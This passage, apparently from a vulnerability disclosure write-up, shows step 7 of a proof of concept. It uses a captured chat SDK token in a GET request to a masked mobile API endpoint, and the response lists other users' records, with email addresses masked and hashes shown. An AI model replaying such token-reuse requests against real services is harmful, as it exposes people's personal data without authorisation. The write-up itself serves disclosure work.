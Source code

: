     },  
    "status": 200  
}

In this case, `lOFfMenuZ3RXXXXXXXXX` is our `chat-sdk-token`.

[7] Request to the vulnerable endpoint

Request:  
  
GET https://xxx-lb.api.xxx.com/api/v2/mobile/get_user_list?limit=2&page=1&order_query=created_at%20desc&query=gmail.com  
  
Headers:  
chat-sdk-app-id: company-x  
chat-sdk-token: {{chat-sdk-token}}  
  
=================  
  
Response:  
  
{  
    "results": {  
        "meta": {  
            "total_data": 407,  
            "total_page": 204  
        },  
        "users": [  
            {  
                "avatar_url": "http://xxx.cloudfront.net/images/xxx.png",  
                "created_at": "2023-12-04T15:20:07.976393Z",  
                "email": "75308cb430d27fe8285b8dddf7637e128e1c38614c4da77fb9731c8eeb73e9ed3d7c29fd7e0b4ca9492bf99dae5def500904d619d585fff89c132d73e54ed88d",  
                "extras": {},  
                "id": 13531553,  
                "name": "xxxxxxxx@gmail.com ",  
                "updated_at": "2023-12-04T15:23:59.982646Z",  
                "username": "xxxxxxx@gmail.com "  
            },  
            {  
                "avatar_url": "http://xxx.cloudfront.net/images/xxx.png",  
                "created_at": "2023-11-27T07:52:05.402016Z",  
                "email": "28a396ecf833171bd2799873e7ef4e1cf5e9a71d849607653105ec869cdd14e43ddd9ad2ba6707e428236f535cde813c4bfd43cb25a334894b19f28068703dce",  
                "extras": {},  
                "id": 13481816,  
                "name": "xxxxxxx@gmail.com ",  
                "updated_at": "2023-11-27T07:52:05.412048Z",  
                "username": "xxxxxxxx@gmail.com "  
            }  
        ]  
    },  
    "status": 200  
}
